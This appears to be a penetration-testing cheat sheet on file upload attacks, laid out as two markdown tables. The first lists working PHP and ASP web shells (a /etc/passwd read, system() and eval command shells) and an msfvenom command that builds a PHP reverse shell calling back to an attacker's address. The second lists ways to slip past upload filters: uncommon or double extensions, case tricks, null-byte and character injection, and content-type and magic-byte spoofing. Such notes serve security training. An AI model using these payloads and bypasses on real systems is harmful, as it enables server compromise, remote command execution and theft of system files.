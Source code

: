 

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation `in windows only` |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` , `:` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) , [Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime) | List of File Signatures/Magic Bytes |
